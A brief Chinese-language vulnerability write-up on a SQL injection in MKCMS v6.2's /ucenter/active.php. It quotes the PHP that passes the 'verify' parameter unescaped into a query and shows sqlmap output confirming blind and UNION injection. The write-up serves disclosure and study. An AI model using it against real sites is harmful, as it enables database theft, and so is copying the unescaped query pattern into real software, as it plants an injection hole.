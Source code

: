 ```yaml
---
title: "MKCMS v6.2 /ucenter/active.php前台sql注入漏洞"
id: zhfly3025
---
```


# MKCMS v6.2 /ucenter/active.php前台sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

MKCMS v6.2

## 三、复现过程

`/ucenter/active.php?verify=1`存在注入

```
/ucenter/active.php
<?php
...
$verify = stripslashes(trim($_GET['verify']));  //去掉了转义用的\
$nowtime = time();
$query = mysql_query("select u_id from mkcms_user where u_question='$verify'");
$row = mysql_fetch_array($query);
... 
```

sqlmap直接跑即可

```
[INFO] GET parameter 'verify' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[INFO] GET parameter 'verify' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable 
```

## 参考链接

> https://xz.aliyun.com/t/7580#toc-4